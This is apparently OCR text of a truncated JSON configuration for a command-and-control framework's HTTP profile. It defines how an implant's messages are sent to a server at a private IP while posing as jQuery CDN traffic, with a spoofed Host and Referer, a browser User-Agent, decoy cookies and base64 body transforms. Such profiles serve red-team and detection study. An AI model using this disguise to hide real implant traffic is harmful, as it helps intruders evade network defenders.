 ```JSON
              "function": "random_alpha",
              "parameters": [30]
            },
            {
              "function": "base64",
              "parameters": []
            }
          ]
        }
      ],
      "Body": []
    }]
  },
    "POST": {
    "ServerBody": [],
    "ServerCookies": {},
    "ServerHeaders": {
          "Server": "NetDNA-cache/2.2",
          "Cache-Control": "max-age=0, no-cache",
          "Pragma": "no-cache",
          "Connection": "keep-alive",
          "Content-Type": "application/javascript; charset=utf-8"
        },
    "AgentMessage": [{
      "urls": ["http://192.168.205.151:9000"],
      "uri": "/download.php",
      "urlFunctions": [],
      "QueryParameters": [
        {
          "name": "bob2",
          "value": "justforvalidation",
          "transforms": []
        }
      ],
      "AgentHeaders": {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Host": "code.jquery.com",
        "Referer": "http://code.jquery.com/",
        "Accept-Encoding": "gzip, deflate",
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko"
      },
      "Cookies": [
        {
          "name": "BobCookie",
          "value": "splat",
          "transforms": [
            {
              "function": "prepend",
              "parameters": [
                "splatity_"
              ]
            }
          ]
        }
      ],
      "Body": [
        {
          "function": "base64",
          "parameters": []
        },
        {
          "function": "prepend",
          "parameters": ["<html>"]
```